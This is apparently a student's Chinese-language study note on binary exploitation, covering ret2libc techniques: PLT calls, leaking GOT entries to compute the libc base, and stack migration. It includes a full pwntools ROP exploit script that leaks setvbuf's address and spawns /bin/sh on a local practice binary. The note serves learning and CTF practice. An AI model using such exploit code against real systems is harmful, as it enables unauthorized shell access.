

# Week5

## from ret2text to ret2libc

### 使用程序自带的函数

- 跳到 .plt entry
- 函数参数直接放在接下来的栈上
- 用 pop-ret 清除用过的参数



### 使用 libc 里的函数

- printf, gets, puts 等都在 libc.so.6
- ROP 直接调用 libc 中的 system
- 使用条件：
  - libc 版本或函数 offset 已知
  - 开启 ASLR 后的 libc 地址随机
- Dynamically Linked ELF:
  - `ldd $binary` 获取 libc 路径
  - `readelf -s $libc` 读 libc 的 symbol
  - `LD_LIBRARY_PATH=$path_to_libc` 指定要载入的 libc 

### 推算 libc base

- 函数在 libc 中的相对位置不变
- 泄露 __libc_start_main 的 got 表内容
  - ROP 构造 `puts(__libc_start_main@got)`
  - 要泄露的 got entry 函数必须调用过
- 已知 libc 版本

**总之就是想调用就跳到 plt，想 leak 就 puts got。**

一个比较有趣的事，开始想用 leak `__libc_start_main`，但是这个版本的 libc 里的地址是 `0001ee00`，所以 puts 输出的时候上来就是一个 `\x00`，不能用了。换了一个 `setvbuf`，都是一样的：

```c++
##coding=utf8
from pwn import *

# r = remote('127.0.0.1', 8888)
r = process('./p3')
offset = 0xffffd5e8 - 0xffffd5d6 + 4

gets = 0x8048350
puts = 0x8048360
libc_start_main_got = 0x0804a018
setvbuf_got = 0x0804a01c
pop_ebp_ret = 0x0804854b
leave_ret = 0x08048408
buf = 0x0804af80
buf2 = 0x0804a880

rop1 = [
    puts,
    pop_ebp_ret,
    # libc_start_main_got,
    setvbuf_got,
    gets,
    pop_ebp_ret,
    buf,
    pop_ebp_ret,
    buf - 4,
    leave_ret,
]

# raw_input()
r.sendline('a'*offset + ''.join(map(p32, rop1)))
print 'recv1:', r.recvline()

setvbuf = r.recvline()
print 'recv2:', "".join("{:x}".format(ord(c)) for c in setvbuf)
libc_base = u32(setvbuf[:4]) - 0x0006fd30
print 'libc base addr = ', hex(libc_base)

system = libc_base + 0x0044620

rop2 = [
    gets,
    system,
    buf2,
    buf2,
]

r.sendline(''.join(map(p32, rop2)))
r.sendline('/bin/sh\x00')
r.interactive()
```

### Stack Migration 构造长 ROP chain


